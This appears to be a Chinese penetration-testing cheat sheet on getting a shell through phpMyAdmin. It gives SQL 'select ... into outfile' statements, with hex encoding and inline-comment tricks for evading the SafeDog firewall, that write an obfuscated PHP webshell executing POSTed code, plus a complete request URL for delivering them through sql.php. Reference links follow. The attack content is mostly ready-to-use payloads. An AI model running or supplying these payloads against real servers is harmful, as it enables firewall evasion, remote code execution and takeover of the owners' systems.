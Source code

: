 绕过网站安全狗<4.0 （通过hex编码）
```
select 0x3c3f7068702024613d636f6e766572745f75756465636f646528222638372d5339372954206022293b40246128245f504f53545b27212a21275d293b3f3e into outfile 'C:\\phpStudy\\WWW\\bypass.php';
```

绕过安全狗4.0 通过hex编码+内联注释
```
/*!50001select*/ 0x3c3f7068702024613d636f6e766572745f75756465636f646528222638372d5339372954206022293b40246128245f504f53545b27212a21275d293b3f3e into outfile 'C:\\phpStudy\\WWW\\bypass.php';
```

### 绕过写入
绕过server_sql.php、tbl_sql.php、db_sql.php + 安全狗导出WebShell
以上的三个文件的作用是（执行SQL语句）
但是如果被删除了可以通过以下的方法

* token需要
* 自己选择一个数据库和数据表
* 参数pos=0


```
&sql_query=/*!50001select*/ 0x3c3f7068702024613d636f6e766572745f75756465636f646528222638372d5339372954206022293b40246128245f504f53545b27212a21275d293b3f3e into outfile 'C:\\phpStudy\\WWW\\bypass.php';
```


例如

```
http://127.0.0.1/phpmyadmin/sql.php?db=数据库名&token=token值&table=数据表名&pos=0&sql_query=/*!50001select*/ 0x3c3f7068702024613d636f6e766572745f75756465636f646528222638372d5339372954206022293b40246128245f504f53545b27212a21275d293b3f3e into outfile 'C:\\phpStudy\\WWW\\bypass.php';
```


# CMS GetShell
## WordPress

[Wordpress 后台GetShell总结](https://dylan903.coding.me/2019/11/06/wordpress-hou-tai-getshell-zong-jie/)

# 参考文章

[PhpMyAdmin 网站路径信息获取](https://bbs.ichunqiu.com/thread-19893-1-1.html)
[总结下写phpmyadmin写shell的方法](https://blog.csdn.net/q1352483315/article/details/88904001)
[phpmyadmin getshell姿势 - 先知社区](https://xz.aliyun.com/t/3283)